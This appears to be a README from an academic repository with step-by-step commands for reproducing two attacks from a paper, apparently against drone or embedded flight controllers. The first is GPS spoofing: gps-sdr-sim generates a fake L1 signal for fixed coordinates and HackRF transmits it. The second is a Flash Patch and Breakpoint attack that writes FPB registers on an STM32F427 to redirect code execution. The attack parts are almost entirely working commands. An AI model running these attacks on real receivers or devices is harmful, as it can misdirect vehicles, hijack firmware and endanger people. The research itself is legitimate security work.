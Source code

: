 # Attack cases mentioned in the paper
Code for conducting attacks mentioned in the paper. We have 2 zero-day attacks which have been reported to respective authorities as well. 

## GPS Spoofing
### Prerequisite
1) You need to have a software-defined radio like <a href="https://greatscottgadgets.com/hackrf/one/" target="_blank">HackRF One</a> which could simulate GPS L1 signal. 
2) Install HackRF package
```bash
sudo apt-get update -y
sudo apt-get install -y hackrf
```

3) Install <a href="https://github.com/osqzss/gps-sdr-sim" target="_blank"> GPS position simulator</a>


### How to execute it?
1) You need to specify the GPS satellite constellation through a GPS broadcast ephemeris file. The daily GPS broadcast ephemeris file (brdc) is a merge of the individual site navigation files into one. The archive for the daily file is:ftp://cddis.gsfc.nasa.gov/gnss/data/daily/

2) Find the latest brdc file for navigation data creation

3) When you use <a href="https://github.com/purseclab/M2MON/tree/main/attacks/GPS_spoofing" target="_blank"> brdc3540.14n</a> as an ephemeris file, you can generate GPS messages by using the command in the below. 
```bash
./gps-sdr-sim -b 8 -e brdc3540.14n -l 31.286502,121.032669,100
```

4) gpssim.bin will be created and the file needs to transferred

5) Spoof the GPS messages 
```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```

## FPB (Flash Patch and Breakpoint Unit) attack
### Prerequisite
1) Your main system-on-Chip must be equipped with a FPB unit. We used <a href="https://www.st.com/en/microcontrollers-microprocessors/stm32f427-437.html" target="_blank">STM32F427</a>.

### How to execute it?
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```
2) Activate the FPB unit and execute a new command
```bash
mw 0xE0002004=0x20000000 1
mh 0x20000014=0xe7fe 1
mw 0xE0002000=0x1 1
mw 0xE000201C=0x0807efb9 1
```
